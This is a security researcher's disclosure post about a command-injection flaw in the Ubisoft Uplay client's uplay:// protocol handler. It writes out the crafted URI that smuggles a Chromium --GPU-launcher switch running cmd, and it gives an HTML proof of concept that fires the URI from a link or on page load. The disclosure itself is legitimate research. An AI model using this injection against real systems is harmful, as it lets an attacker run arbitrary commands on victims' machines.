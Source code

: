 ```yaml
---
title: Ubisoft UPlay RCE Exploit
post: post
date: 2018-11-16 12:33
image: "/images/ubipoc.png"

---
```

<h1 class="cyan-text title">Ubisoft Uplay Desktop Client - Remote Code Execution</h1>
<br>
<h2 class="cyan-text subtitle">Introduction</h2>
<br>
<p class="content white-text">
Exploit Title: Ubisoft Uplay Desktop Client 63.0.5699.0 - Remote Code Execution
<br>
Date: 2018-09-01
<br>
Exploit Author: Che-Chun Kuo
<br>
Vulnerability Type: URI Parsing Command Injection
<br>
Vendor Homepage: https://www.ubisoft.com/en-us/
<br>
Software Link: https://uplay.ubi.com/
<br>
Version: 63.0.5699.0
<br>
Tested on: Windows, Microsoft Edge
<br>
Advisory: https://forums.ubi.com/showthread.php/1912340-Uplay-PC-Client-July-17th-2018
<br>
<h3 class="cyan-text subtitle">Vulnerability</h3>
<br>
The Uplay desktop client does not properly validate user-controlled data passed to its custom uplay URI protocol handler. This flaw can be used to exploit the Chromium Embedded Framework (CEF) integrated within the Uplay client, allowing for arbitrary code execution.
<br>
Installing Uplay registers the following custom uplay protocol handler: 
<pre><code class="grey darken-4 red-text">HKEY_CLASSES_ROOT
	uplay
		(Default) = "URL:uplay Protocol"
		URL Protocol = ""
			DefaultIcon
				(Default) = "upc.exe"
		Shell
			Open
			Command
				(Default) = "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "%1"
</code></pre>
<br>
The %1 will be replaced with arguments from the URI. The following crafted URI performs arbitrary code execution: 
<pre><code class="grey darken-4 red-text">uplay://foobar" --GPU-launcher="cmd /K whoami &" --</code></pre>
<br>
When a victim opens this URI, the string is passed to the Windows ShellExecute function.
<br><br>
Microsoft states the following: "When ShellExecute executes the pluggable protocol handler with a string on the command line, any non-encoded spaces, quotes, and backslashes in the URI will be interpreted as part of the command line. This means that if you use C/C++’s argc and argv to determine the arguments passed to your application, the string may be broken across multiple parameters."
<br><br>
"Malicious parties could use additional quote or backslash characters to pass additional command line parameters. For this reason, pluggable protocol handlers should assume that any parameters on the command line could come from malicious parties, and carefully validate them."
<br><br>
The Uplay desktop client does not properly validate user-controlled data. An attacker can inject certain Chromium flags that allow for arbitrary code execution. The malicious URI breaks the command line with a quote character and inserts a new switch called --GPU-launcher. Since the Uplay client uses the Chromium Embedded Framework (CEF), Chromium command lines switches are supported.
<br><br>
The --GPU-launcher switch provides a method to execute arbitrary commands. The following string shows the final command, which opens the Windows command prompt and executes the whoami program. 
<br>
<pre><code class="grey darken-4 red-text">"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "foobar" --GPU-launcher="cmd /K whoami &" --"</code></pre>
<br>
<h3 class="cyan-text subtitle">Attack Scenario</h3>
<br>
The following attack scenario would result in the compromise of a victim's machine with the vulnerable Uplay client installed. A user running Microsoft Edge visits a specially crafted webpage or clicks on a specially crafted link. The user is served with the prompt: Did you mean to switch apps? Microsoft Edge is trying to open "UPlay launcher". After the user gives consent, the vulnerable application runs, resulting in arbitrary code execution in the context of the current process.
<br><br>
This scenario also works on IE, but the IE browser shows the URI string to be opened and warns users against opening untrusted content. Microsoft Edge provides no such warning. Chrome and Firefox both escape illegal characters before passing the URI to the protocol handler.
<br><br>
After Uplay desktop client (upc.exe) is run, upc.exe will attempt to open additional executables before the --GPU-launcher is activated. One notable executable is the UplayService.exe. UplayService requires elevated privileges. If the user is a non-administrative user a UAC prompt will appear. 
<br><br>
It should be noted, this UAC prompt doesn't prevent command execution from occurring. Regardless of which option the user chooses within the UplayService UAC prompt (Yes/No), command execution will still occur once the code that passes the --GPU-launcher switch to the CEF is triggered within upc.exe. 
<br><br>
<h4 class="cyan-text subtitle">Proof of Concept</h4>
<br>
The following POC provides two avenues to trigger the vulnerability within Microsoft Edge. 
The first method triggers when the webpage is opened. 
The second method triggers when the hyperlink is clicked by a user.
<br>
<pre><code class="html grey darken-4 red-text">
<<a href='uplay://foobar" --GPU-launcher="cmd /K whoami &" --'>ubisoft uplay desktop client rce poc</a>>
<!--
<script>
  window.location = 'uplay://foobar" --GPU-launcher="cmd /K whoami &" --'
</script> -->
</code></pre>
<br>
<div class="video-container">
  <iframe src="https://www.youtube.com/embed/mffRsZgWgys" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
 </div>